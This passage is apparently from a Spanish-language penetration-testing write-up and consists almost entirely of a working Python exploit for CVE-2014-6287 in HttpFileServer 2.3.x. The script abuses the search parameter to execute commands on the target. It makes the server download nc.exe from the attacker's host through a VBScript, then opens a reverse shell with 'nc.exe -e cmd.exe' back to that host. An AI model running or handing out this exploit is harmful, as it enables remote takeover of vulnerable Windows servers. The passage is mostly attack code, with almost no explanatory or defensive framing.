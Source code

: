 ```sh
└─$ 
```

### Script de Exploit

```py
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#              It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#              It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux.

#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
        def script_create():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

        def execute_script():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

        def nc_run():
                urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

        ip_addr = "192.168.44.128" #local IP address
        local_port = "443" # Local Port number
        vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
        save= "save|" + vbs
        vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
        exe= "exec|"+vbs2
        vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
        exe1= "exec|"+vbs3
        script_create()
        execute_script()
        nc_run()
except:
        print """[.]Something went wrong..!
        Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
```